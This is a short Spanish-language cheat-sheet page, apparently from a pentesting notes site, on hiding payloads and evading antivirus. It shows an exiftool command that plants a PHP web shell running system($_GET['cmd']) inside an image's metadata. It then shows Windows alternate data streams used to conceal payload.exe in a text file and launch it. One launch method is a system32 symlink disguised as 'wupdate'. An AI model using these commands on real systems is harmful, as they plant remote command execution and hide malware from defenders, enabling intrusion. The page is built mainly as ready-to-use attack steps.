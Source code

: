 ```yaml
---
title: "Obfuscation Av Evasion"
layout: "single"
category: "Varios"
slug: "varios/obfuscation-av-evasion"
date: "2025-09-30"
---
```


### Exiftool

#### Incluir PHP en imagen
Lo primero que necesitamos es la imagen que vamos a utilizar para cargar la Shell. Una vez descargada, comenzamos a modificarla.

El comando para ello es:
```bash
exiftool -Comment='<?php echo “<pre>”; system($_GET[‘cmd’]); ?>’ nombre_imagen.extensión
```

### Alternate data streams ADS (Para windows)
Con ADS podemos esconder ficheros en metadatos de otros ficheros para tratar de evadir un antivirus o pasar desapercibido.

Teniendo un fichero payload.exe lo escondemos en, por ejemplo un txt.
```bash
type payload.exe > fichero.txt:payload.exe # O el nombre que le queramos dar
```

#### Opcion 1
Llamar al ejecutable con la ruta absoluta
```bash
start C:\temp\fichero.txt:payload.exe
```

#### Opcion 2
 Creariamos un enlace simbólico a otro fichero.exe en system32 que al llamarlo, ejecutaría el payload. cabe mencionar que se necesitan permisos para escribir en system32
```bash
mklink C:\windows\system32\wupdate C:\tmp\fichero.txt:payload.exe

#ejecutar. al estar system32 en el path se puede llamar de forma relativa
wupdate
```
